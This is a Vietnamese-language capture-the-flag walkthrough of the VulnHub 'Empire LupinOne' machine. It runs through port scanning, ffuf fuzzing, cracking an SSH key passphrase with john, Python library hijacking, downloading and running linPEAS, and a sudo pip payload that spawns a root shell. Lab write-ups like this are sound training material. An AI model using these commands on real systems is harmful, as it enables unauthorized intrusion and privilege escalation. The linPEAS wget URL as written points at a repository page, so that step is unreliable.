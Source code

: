 # Lab
**I. EMPIRE LUPIN ONE**
Nguồn hướng dẫn:[Đây](https://www.hackingarticles.in/empire-lupinone-vulnhub-walkthrough/)
1. Tìm kiếm mục tiêu, quét cổng
   Đầu tiên dùng netdiscover tool để khám phá mạng xung quanh, tìm địa chỉ IP mục tiêu:
   `netdiscover`
   Sau khi đã có IP máy mục tiêu, quét các cổng bằng Nmap tool:
   `nmap -sC -sV 192.168.1.4`
   ![image](https://github.com/tninh27/Lab/assets/105789492/f20bdbc8-360a-4bec-9106-99a9aafe3fee)
  Ta có:
  - cổng 22 có máy chủ SSH
  - cổng 80 có dịch vụ HTTP (Apache Server), một thư mục /~myfiles
2. Liệt kê
  Dùng trình duyệt xem folder /~myfiles:
  ![image](https://github.com/tninh27/Lab/assets/105789492/3ed47e03-fa62-4b7a-86c6-f6f5b4dd5568)
  Thử xem bằng chế độ view-source:
  ![image](https://github.com/tninh27/Lab/assets/105789492/28c2d911-58d7-49af-85fa-274503a15888)
  - Đã có gợi ý đầu tiên
  Dùng kỹ thuật Fuzzing với ffuf tool, xem các thư mục:
  `ffuf -c -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt -u 'http://192.168.1.4/~FUZZ'`
  ![image](https://github.com/tninh27/Lab/assets/105789492/ff4b2830-82c3-491a-9ee2-86627c65f0cf)
  - Tìm thấy thư mục bí ẩn secret, mở bằng trình duyệt:
  ![image](https://github.com/tninh27/Lab/assets/105789492/2ae6fe73-c722-41a7-a28f-4f746c62e0ec)
  - Gợi ý tên tài khoản đăng nhập là: icex64, khóa sshkey
  Để tìm khóa ssh  đó, tiếp tục sử dụng fuzzing với ffuf tool :
  `ffuf -c -ic -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt -u 'http://192.168.1.4/~secret/.FUZZ' -fc 403 -e .txt,.html`
  ![image](https://github.com/tninh27/Lab/assets/105789492/e03160b8-ab89-40bd-a163-86fe5112a5de)
  - Tìm thấy tệp bí mật secret.txt, mở bằng trình duyệt:
  ![image](https://github.com/tninh27/Lab/assets/105789492/7a80106b-63d8-4343-be97-13c76bc3b08f)
  - Tìm được 1 đoạn mã code base58, giải mã nó ta được khóa ssh sau
  ![image](https://github.com/tninh27/Lab/assets/105789492/e4ef6819-5fc8-42e3-a84b-b4b835f78e41)
  Tiến hành lưu trữ lại khóa tìm được này vào file *ssh*
3. Khai thác
  Dùng ssh2john, băm file *sshkey* vào file *hash* :
  `/usr/share/john/ssh2john.py sshkey > hash`
   Dùng john, bẻ khóa giá trị băm:
  `john --wordlist=/usr/share/wordlists/fasttrack.txt hash`
  ![image](https://github.com/tninh27/Lab/assets/105789492/cc291c25-80fb-4c8e-ac2a-a7331c2005da)
  - Mật khẩu: P@55w0rd!
  Đăng nhập tài khoản *icex64* bằng khóa *sshkey* và mật khẩu vừa tìm được:
  `ssh -i sshkey icex64@192.168.1.4 `
  ![image](https://github.com/tninh27/Lab/assets/105789492/4aea8796-5900-4f89-99cc-4a537defdc5a)
  Kiểm tra quyền:
  `sudo -l`
  ![image](https://github.com/tninh27/Lab/assets/105789492/eaa6b75c-aa5b-4865-bb11-123451aecc52)
  - Tìm được người dùng arsense có thể khai thác bằng các chiếm thư viện python
  Xem nội dung file heist.py:
  ![image](https://github.com/tninh27/Lab/assets/105789492/f854b90d-b81d-4f45-9a8d-a11ddd1eb19f)
4. Leo thang đặc quyền
  Tải Linpeas tool từ Github, cấp quyền thực thi cho nó: [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  `wget https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`
  `chmod +x ./linpeas.sh`
  Tiến hành chạy linpeas:
	`./linpeas.sh`
  ![image](https://github.com/tninh27/Lab/assets/105789492/12216f46-ebf6-4888-8983-66dea24c3530)
  - Tìm được đường dẫn thư mục thư viện python
  Dùng nano sửa file trên, thêm lệnh /bin/bash:
  ![image](https://github.com/tninh27/Lab/assets/105789492/22d716ac-8a01-49ab-a8a5-c664d9cfdc70)
  Chuyển người dùng icex64 sang arsene:
  `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py `
  ![image](https://github.com/tninh27/Lab/assets/105789492/f8f4b692-7a97-4faf-94ce-df9486abaf45)
  Kiểm tra quyền tài khoản arsene:
  `sudo -l `
  ![image](https://github.com/tninh27/Lab/assets/105789492/9b0646cf-cc53-4520-874d-88d289923f9f)
  - Thấy có quyền thực thi nhị phân pip mà không cần xác minh root, tiến hành leo thang đặc quyền:
  ```TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF```
  ![image](https://github.com/tninh27/Lab/assets/105789492/055efa6f-b949-4888-9681-f32caf49769e)
  - Đã đăng nhập tài khoản root, xem file root.txt:
  ![image](https://github.com/tninh27/Lab/assets/105789492/0d60f705-2c87-4cd3-9c38-f556889ec9f0)



















